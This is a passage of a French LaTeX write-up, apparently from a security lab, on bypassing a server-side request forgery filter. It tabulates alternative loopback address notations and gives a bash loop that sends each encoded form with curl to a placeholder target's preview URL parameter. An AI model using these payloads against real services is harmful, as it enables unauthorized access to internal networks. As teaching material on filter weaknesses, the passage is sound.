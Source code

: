 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{center}
\renewcommand{\arraystretch}{1.3}
\begin{tabularx}{\textwidth}{@{}l l X@{}}
\toprule
\textbf{Notation} & \textbf{Exemple} & \textbf{Principe} \\
\midrule
Decimale pointee (normale) & \texttt{127.0.0.1} & 4 octets separes par des points \\
Forme courte & \texttt{127.1} & Le dernier segment est interprete comme
  les 24 bits restants ; \texttt{127.1} $\equiv$ \texttt{127.0.0.1} \\
Octale & \texttt{0177.0.0.1} & Un segment prefixe par \texttt{0} est lu en
  base 8 ($\texttt{0177}_8 = 127_{10}$) \\
Hexadecimale & \texttt{0x7f.0.0.1} ou \texttt{0x7f000001} & Prefixe
  \texttt{0x}, base 16 \\
Decimale pure (32 bits) & \texttt{2130706433} & L'adresse entiere comme un
  seul entier non signe \\
IPv6 loopback & \texttt{[::1]} & Equivalent IPv6 de \texttt{127.0.0.1} \\
IPv4 mappee en IPv6 & \texttt{[::ffff:127.0.0.1]} & Forme hybride que
  certaines piles IPv6 acceptent \\
\bottomrule
\end{tabularx}
\end{center}

Un filtre qui fait un simple \texttt{if url\_contains("127.0.0.1")} ne
reconnait \textbf{aucune} de ces formes alternatives, alors que le
resolveur systeme, lui, les traduit toutes vers la meme adresse loopback.
C'est exactement l'ecart exploite ici.

\subsection{Contournement du filtre}

Test systematique de chaque forme, en encodant l'URL pour le parametre
GET :

\begin{lstlisting}[language=bash]
BASE='http://<cible>/preview?url='
for target in \
  "http://127.1" "http://0177.0.0.1" "http://0x7f.0.0.1" \
  "http://0x7f000001" "http://2130706433" "http://017700000001" \
  "http://127.000.000.001" "http://[::1]" ; do
  enc=$(python3 -c "import urllib.parse,sys; \
        print(urllib.parse.quote(sys.argv[1], safe=''))" "$target")
  curl -s "${BASE}${enc}" | grep -oE 'Acces au reseau local interdit|<div class="err">.{0,120}'
done
\end{lstlisting}
\end{document}
